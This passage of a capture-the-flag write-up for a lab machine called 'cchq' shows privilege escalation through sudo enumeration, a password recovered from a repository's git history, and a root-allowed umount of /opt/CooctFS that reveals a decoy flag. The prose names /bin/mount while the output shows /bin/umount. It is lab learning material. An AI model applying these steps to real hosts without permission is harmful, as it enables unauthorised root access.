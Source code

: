 ```sh
tux@cchq:/home/varg$ sudo -l
Matching Defaults entries for tux on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tux may run the following commands on cchq:
    (varg) NOPASSWD: /home/varg/CooctOS.py
```


There is a .git directory in the cooctOS_src directory, where we can enumerate information about the repo.

```git show``` gives us the following output which contains another password ```redacted```

![[script.png]]

___

## Varg's Flag

![[varg_flag.png]]
___

# Get full root privileges
> _Hint: To mount or not to mount. That is the question._

Checking varg's sudo privileges reveals ```/bin/mount``` can be run as root with no password. I checked https://gtfobins.github.io/# to see if there was a quick win but that was a dead end. Checking ```/etc/fstab``` is another option to see if there are any mounted partitions.

```sh
varg@cchq:~$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```

![[fstab.png]]

___

This seems rather odd but let's unmount the /opt/CooctFS share and see what happens. After unmounting the share there is a root directory which contains ```root.txt``` but it's a troll flag.

```sh
varg@cchq:~$ sudo umount /opt/CooctFS
varg@cchq:~$ ls -la /opt/CooctFS/
total 12
drwxr-xr-x 3 root root 4096 Feb 20  2021 .
drwxr-xr-x 3 root root 4096 Feb 20  2021 ..
drwxr-xr-x 5 root root 4096 Feb 20  2021 root
varg@cchq:~$ cd /opt/CooctFS/root
varg@cchq:/opt/CooctFS/root$ ls
root.txt
varg@cchq:/opt/CooctFS/root$ cat root.txt
hmmm...
No flag here. You aren't root yet.
varg@cchq:/opt/CooctFS/root$ 
```
